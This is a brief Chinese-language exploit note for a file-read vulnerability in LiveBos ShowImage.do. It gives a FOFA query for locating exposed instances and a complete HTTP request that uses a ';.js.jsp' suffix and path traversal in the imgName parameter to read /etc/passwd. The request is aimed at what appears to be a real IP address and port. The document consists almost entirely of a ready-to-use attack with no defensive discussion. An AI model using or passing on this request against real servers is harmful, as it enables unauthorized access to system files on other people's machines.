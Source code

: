 # LiveBos ShowImage.do 文件 imgName 参数读取漏洞

    ## fofa

```
body="LiveBos" || body="/react/browser/loginBackground.png"
```

## poc

```
GET /feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 112.35.7.97:8001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip


```
